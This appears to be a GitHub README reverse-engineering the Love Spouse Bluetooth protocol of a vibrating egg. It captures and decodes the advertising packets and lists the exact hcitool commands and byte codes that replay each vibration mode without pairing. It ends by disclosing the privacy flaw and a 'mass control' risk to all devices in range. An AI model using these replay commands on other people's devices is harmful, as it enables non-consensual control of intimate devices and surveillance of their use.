




# lovespouse-ble-reverse

## Context

Most entry-level connected vibrators operate with the Love-Spouse application.
<p align="center">

</p>

The sex toy tested is the "Vibrating Egg Vibrator" from the brand "Kaiagame".
The different vibration modes are manageable from a small Bluetooth remote control or from the Love Spouse application.

When powering on the vibrating egg to pair it with the mobile application, it is surprising not to see any new device in the Bluetooth networks. 
It is very common (though not mandatory) for devices to enter discoverable mode during pairing.
Moreover, when attempting to pair the sex toy with the application, even though it is powered off, no error is displayed on the Android application and we can select a vibration mode despite it not being paired with the phone.

<p align="center">

</p>

This suggests that it's not necessary to pair the sex toy with the phone to control it.
This repository will first analyze communications between the adult toy and the phone. In a second phase, we will replay the communications from a laptop running Debian 12.


## Bluetooth Communication Analysis

To analyze Bluetooth communications between my vibrator, we will download the Love Spouse application APK and use it on an AVD (Android Virtual Device).
We can download the APK from the Uptodown website: https://love-spouse.en.uptodown.com/android
Note that the tested version is `1.8.9`.

In the following steps, it's important to enable developer mode and ADB over WiFi on our virtual device.
The application installation is straightforward with this command:
```
adb install love-spouse-1-8-9.apk
```

### How does the phone send commands to the sex toy?

**Controlling the vibrating egg**

Press each of the vibration modes (9) and request a bugreport. This will contain Bluetooth logs that we will analyze

<p align="center">

</p>

```
adb bugreport bugreport.zip
```


**Extract Bluetooth logs**

```
unzip bugreport.zip "*/btsnooz_hci.log"
```

First, we open it with Wireshark. We can observe many advertising packets sent by our phone. These don't contain the usual information.

<p align="center">

</p>

We will formulate the following hypothesis: 
> vibration commands are sent in advertising packets. 
 
This explains why there is seemingly no pairing with the phone

To extract these packets, we will use `tshark` and filter to retrieve only opcodes of type `0x2037`. These correspond to advertising data packets.

```sh
tshark -r btsnooz_hci.log -Y "bthci_cmd.opcode == 0x2037"                       
  165   7.911197         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  179   9.700668         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  193  11.661880         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  207  13.724023         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  221  16.160418         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  235  17.945675         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  249  19.883291         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  263  21.762616         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  277  23.624803         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
  291  25.803601         host → controller   HCI_CMD 30 Sent LE Set Extended Advertising Data
```

We have been retrieved 10 interesting packets. We pressed each mode, then pressed mode 10 twice to turn off the vibrating egg. Pressing one of the mode a second time sends a  turn off command.
We can now display the raw content of packet number 1 and the second press on mode 10 to have a method to turn off the vibrator:

```
tshark -r btsnooz_hci.log -Y "frame.number == 165" -x 
0000  01 37 20 1a 00 03 01 16 02 01 01 0e ff ff 00 6d   .7 ............m
0010  b6 43 ce 97 fe 42 7c e4 9c 6c 03 03 8f ae         .C...B|..l....
```

```
tshark -r btsnooz_hci.log -Y "frame.number == 291" -x   
0000  01 37 20 1a 00 03 01 16 02 01 01 0e ff ff 00 6d   .7 ............m
0010  b6 43 ce 97 fe 42 7c e5 15 7d 03 03 8f ae         .C...B|..}....
```

The only differences between these packets are at bytes 24,25 and 26 of each frame:

To activate mode 1: `e4 9c 6c`
To turn off the vibrator: `e5 15 7d`

For the other modes, we have:

```
1 - e4 9c 6c 
2 - e7 07 5e 
3 - e6 8e 4f 
4 - e1 31 3b 
5 - e0 b8 2a 
6 - e3 23 18 
7 - e2 aa 09 
8 - ed 5d f1 
9 - ec d4 e0 
```

## Replay Bluetooth Communications

### Manually

We can try to directly replay mode 1 with the `hcitool` command:

Before if you haven't already done so. You must install bluez
```
sudo apt update
sudo apt install bluez
```
```
sudo hciconfig hci0 down
sudo hciconfig hci0 up
sudo hcitool -i hci0 cmd 0x08 0x0037 00 03 01 16 02 01 01 0e ff ff 00 6d b6 43 ce 97 fe 42 7c e4 9c 6c 03 03 8f ae
```

If we do this, the sex toy does not vibrate.

Two things are missing:

Configure advertising parameters (general parameters + MAC address)
Enable advertising with the previously configured parameters + send the packet

To find this information, we can use opcode `0x2036` for general parameters:

```
tshark -r btsnooz_hci.log -Y "bthci_cmd.opcode == 0x2036" 
  159   7.908910         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  173   9.699031         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  187  11.640908         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  201  13.672810         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  215  16.156438         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  229  17.934456         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  243  19.881176         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  257  21.746332         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  271  23.610774         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
  285  25.796163         host → controller   HCI_CMD 29 Sent LE Set Extended Advertising Parameters
```

These parameters appear before each advertising data packet. For example, the first packet was at frame `165`, and we have a parameter packet at frame `159`. 

Similarly for the last data packet (turn off) which was at frame `291` with a parameter packet at 285.

Let's now display the payload (which is always the same regardless of the selected packet):

```
tshark -r btsnooz_hci.log -Y "bthci_cmd.opcode == 0x2036" -x
0000  01 36 20 19 00 13 00 a0 00 00 d2 00 00 07 01 00   .6 .............
0010  00 00 00 00 00 00 00 01 01 00 01 00 00            .............
```

To find the device's MAC address, opcode `0x2035` will be useful:

```
tshark -r btsnooz_hci.log -Y "bthci_cmd.opcode == 0x2035" -x
0000  01 35 20 07 00 da ab e7 a4 7b 55                  .5 ......{U
0000  01 35 20 07 00 a0 3c 30 e3 18 6a                  .5 ...<0..j
0000  01 35 20 07 00 27 8d 65 2b a1 66                  .5 ..'.e+.f
0000  01 35 20 07 00 6b 3c 13 c1 a0 67                  .5 ..k<...g
0000  01 35 20 07 00 db 46 6d 3c 27 47                  .5 ...Fm<'G
0000  01 35 20 07 00 cc 47 00 62 6b 60                  .5 ...G.bk`
0000  01 35 20 07 00 c4 86 de 78 3d 4b                  .5 .....x=K
0000  01 35 20 07 00 1e ac 78 62 7d 76                  .5 ....xb}v
0000  01 35 20 07 00 dc cb e8 9e a4 55                  .5 .......U
0000  01 35 20 07 00 fb 8f 75 5d 97 61                  .5 ....u].a
```

With each new transmission, there is a new MAC address. The sex toy listens passively to everything happening on advertising. We can use a d  random MAC address and the vibrator will still activate.

We now have everything needed to make our adult toy vibrate:

```
sudo hciconfig hci0 down
sudo hciconfig hci0 up
sudo hcitool -i hci0 cmd 0x08 0x0036 00 13 00 a0 00 00 d2 00 00 07 01 00 00 00 00 00 00 00 00 01 01 00 01 00 00
sudo hcitool -i hci0 cmd 0x08 0x0035 00 01 02 03 04 05 06
sudo hcitool -i hci0 cmd 0x08 0x0037 00 03 01 16 02 01 01 0e ff ff 00 6d b6 43 ce 97 fe 42 7c e4 9c 6c 03 03 8f ae
sudo hcitool -i hci0 cmd 0x08 0x0039 01 01 00 00 00 00 00 00 00 00
```


This packet simply enables advertising:
```
sudo hcitool -i hci0 cmd 0x08 0x0039 01 01 00 00 00 00 00 00 00 00
```
Once these commands are sent, the vibrating egg starts vibrating on mode 1.

To turn off the device, we can send the following commands:

```
sudo hcitool -i hci0 cmd 0x08 0x0037 00 03 01 16 02 01 01 0e ff ff 00 6d b6 43 ce 97 fe 42 7c e5 15 7d 03 03 8f ae
sudo hcitool -i hci0 cmd 0x08 0x0039 01 01 00 00 00 00 00 00 00 00
sleep 2
sudo hcitool -i hci0 cmd 0x08 0x0039 00 00 00 00 00 00 00 00 00 00
```

The last packet sent after a sleep allows stopping advertising transmission:

```
sudo hcitool -i hci0 cmd 0x08 0x0039 00 00 00 00 00 00 00 00 00 00
```

### Script final

We need bluez to make our script work:
```
sudo apt update
sudo apt install bluez
```
Running our script requires root privileges.

<p align="center">

</p>

## Conclusion

### Security Implications

Most entry-level Bluetooth sex toys are built on the same model and share this vulnerability. 

This protocol has been publicly reverse-engineered for at least two years, yet companies manufacturing these adult toys have not issued any security patches or design changes. 

### Privacy Concerns
Advertising packets are unencrypted and broadcast on BLE channels 37, 38, and 39. Anyone with a Bluetooth sniffer can:

- Detect when someone is using a sex toy
- Identify the specific vibration mode being used

### Mass Control Attack

If this script is executed in a location where multiple vulnerable vibrating egg are present, all devices within range will simultaneously respond to the selected mode. 

The lack of device-specific addressing means a single broadcast packet controls every listening device indiscriminately.

**This represents a privacy and security risk for users of these devices.**
